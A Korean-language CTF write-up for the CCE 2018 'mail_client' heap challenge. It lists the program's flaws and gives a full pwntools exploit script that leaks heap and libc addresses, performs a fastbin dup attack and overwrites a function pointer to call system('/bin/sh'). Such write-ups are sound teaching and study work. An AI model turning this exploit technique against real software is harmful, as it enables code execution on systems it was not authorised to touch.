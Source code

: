 ```yaml
---
title: CCE CTF 2018 - red5_1aadde7c3b mail_client
date: 2018-10-04 00:10:53
categories:
- Heap Exploit
- CTF writeup
tags:
- Fastbin Dup attack
---
```



```c
FMAIL version 1.0 uid=1000 gid=1000
AUTH: Plaintext
Compiler: GCC
Library: Glibc
```

..정말 취약점은 쉽고 익스가 힘들었던 문제



일단 눈에 보이는 이상한 점은

1. mail의 body에 40개 만큼 넣으면 file을 malloc 한 주소 leak이 가능하다.
2. file 할당 시 size 검사를 안한다.
3. free하는 mail의 index 검사를 안한다.
4. logout 후 다시 register 할 때 malloc을 안한다. (free 영역에 계속 쓸 수 있음)
5. file 을 modify 할 때 구조체 안의 함수 포인터를 사용한다.



이상한 점은 정말 많은데 memset 때문에 익스할 때 번번히 막혔다..

archive 메뉴는 아직도 어떻게 쓰는 지 모르겠다..ㅋㅋㅋㅋㅋㅋㅋ 듣기로는 익스 방법은 진짜 가지각색이라고 함..

top chunk 덮어서 orange 처럼 free 한 다음 leak 하려고도 했는데 eof 가 떠서 못했다. 이건 아직도 왜그런지 모르겠음..



내가 쓴 구조체

```c
struct my
{
  char email[40];
  char pass[40];
};
```

```c
struct mail
{
  char to[20];
  char subject[20];
  char body[40];
  __int64 file_pointer;
  __int64 (__fastcall *FILE)(__int64, __int64);
};
```

```c
struct list
{
  mail *mail;
};
```



내가 한 방법은 1번을 이용해 heap 영역을 leak 하고 2번을 이용해 mmap으로 할당하게 해서 libc 주소를 구했다. 원래 libc leak을 이 방법이 아니라 딴 걸 생각 햇는데 이것 때문에 삽질엄청했다.

그리고 메뉴를 입력할때 19 bytes 만큼 받아서 메뉴 입력 한 뒤 원하는 주소를 넣을 수 있다. 여기에 원하는 chunk 영역을 넣고 3번을 이용해 내 맘대로 free 할 수 있다. ~~근데 memset 함..짜증..~~

하지만 4번이 있으므로 fastbin dup attack을 할 수 있다. 이걸 5번 함수 포인터 근처에 fake chunk를 넣고 할당 받은 뒤 overwrite 하면 쉘이 따인다. 짜잔

주의할 점은 함수 포인터 부르는게 지금 쓰는 mail 구조체라 여기에 넣어야 함. 그리고 one_shot 안되서 login mail부분에 "/bin/sh" 넣어서 system 함수 써야함(free 된 영역이라 0x50 malloc 하면 쓸 수 있다.)



```python
from pwn import *
from time import *

w = process("./mail_client")

def register(mail, pw):
	w.sendline('REG')
	w.sendline(mail)
	w.sendline(pw)

def login(mail, pw):
	w.sendline("LOGIN")
	w.sendline(mail)
	w.sendline(pw)

def logout():
	w.sendline("LOGOUT")

def send(to, subject, body, attach):
	w.sendline("SEND")
	w.sendline(to)
	w.sendline(subject)
	w.send(body)
	w.sendline(str(attach))

def recv():
	w.sendline("RECV")

def trash(idx):
	w.sendline("TRASH")
	w.sendline(str(idx))

def archive(idx):
	w.sendline("ARCHIVE")
	w.sendline(str(idx))

def att_file(size, content, mod):
	w.sendline(str(size))
	w.sendline(content)
	w.sendline(str(mod))

def leak():
	w.recvline()
	w.recvline()
	heap = w.recvline()[41:-2]
	return u64(heap.ljust(8,"\x00"))
	

register("wally0813@","wally0813")
login("wally0813@","wally0813")

# heap leak
send("wally0813","wally0813","w"*40,1)
att_file(0x50,"wally0813",2)

w.recv()
recv()
heap_base = leak()-0xe0
log.info("Heap_Base ::"+hex(heap_base))

# mmap
send("wally0813","wally0813","w"*40,1)
att_file(0xfffffff,"wally0813",2)

# libc leak
send("wally0813","wally0813","w"*40,1)
att_file(0x500,"wally0813",2)

recv()
w.recvuntil('[1]')
libc_base = (leak()& 0xffffffff000)+0x700010001000
log.info("Libc_base ::"+hex(libc_base))
system = libc_base + 0x45390

# fastbin dup attack in heap
w.sendline("TRASH".ljust(8,"\x00")+p64(heap_base+0x10))
w.sendline("11")

w.sendline("TRASH".ljust(8,"\x00")+p64(heap_base+0xe0))
w.sendline("11")

logout()

fake = heap_base+0x760

register(p64(fake),"wally0813")
login(p64(fake),"wally0813")

send("w","w",p64(0)*2+p64(0x60)+p64(heap_base+0x10)+p64(heap_base+0x10),1)

# overwrite function pointer
att_file(0x50,"/bin/sh\x00",1)
att_file(0x50,"1"*0x10+p64(system)*2,1)

w.interactive()

```

다 풀고 나니 생각보다 별거 아닌데 삽질을 엄청했다. 이상하게 요즘 푸는 문제 버퍼가 다 이상하다... ~~내가 이상하게 줬겠지..~~

